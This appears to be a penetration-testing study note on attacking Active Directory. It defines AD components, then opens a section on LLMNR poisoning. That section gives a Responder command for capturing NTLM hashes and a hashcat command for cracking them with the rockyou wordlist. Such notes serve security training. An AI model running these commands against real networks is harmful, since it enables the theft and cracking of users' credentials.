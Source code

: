 # Attacking Active Directory

## Active Directory Components

### AD DS Schema

Class Object : What objects can be crated in the directory : User, Computer

Attribute Object : Information that can be attached to an object : Display name

### Domains

are used to group and manage objects on an organization

### Trees

is a hierarchy of domains in AD DS

### Forest

is a collection of one or more domain trees

### Organizational Units (OU)

are AD containers that can contain users, groups, computers, and other OUs

### Trusts 

provide a mechanism for users to gain access to resources in another domain

Directional : trust direction flows from trusting domain to the trusted domain

Transitive : trust relationship is extended beyond a two-domain trust to include other trusted domains

## Initial Attack Vectors

### LLNMR Poisoning (Link Local Multicast Name Resolution)
/MITM Attack

[Responder Github link](https://github.com/SpiderLabs/Responder)

1. run responder
2. an event occurs
3. get hashes
4. crack hashes

responder
```
responder.py -I tun0 -rdw
```

hashcat
```
hashcat -m 5600 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt
```
